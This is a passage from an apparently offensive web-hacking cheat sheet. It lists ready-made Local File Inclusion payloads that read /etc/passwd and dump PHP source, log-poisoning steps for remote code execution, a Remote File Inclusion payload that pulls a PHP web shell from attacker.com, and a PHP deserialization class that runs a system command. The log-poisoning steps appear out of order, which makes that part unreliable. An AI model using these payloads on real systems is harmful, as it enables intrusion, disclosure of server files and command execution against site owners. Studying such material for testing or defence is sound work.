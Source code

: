 ***

### IX. 🧩 Local File Inclusion (LFI)

#### ⚙️ Basic Payloads

```bash
?page=../../../../etc/passwd
?page=php://filter/convert.base64-encode/resource=index.php
```

#### 🧠 Log Poisoning for RCE

1.  Inject PHP payload into logs:

    ```bash
    curl "http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id"
    ```
2.  Access via LFI to execute:

    ```
    <?php system($_GET['cmd']); ?>
    ```

***

### X. ⚙️ Remote File Inclusion (RFI)

#### 💣 Payload

```bash
?page=http://attacker.com/shell.txt
```

`shell.txt`:

```php
<?php system($_GET['cmd']); ?>
```

***

### XI. 🧠 Deserialization Vulnerabilities

#### ⚙️ PHP Example

```php
<?php
class Evil {
  function __destruct() {
    system('id');
  }
}
echo base64_encode(serialize(new Evil()));
?>
```
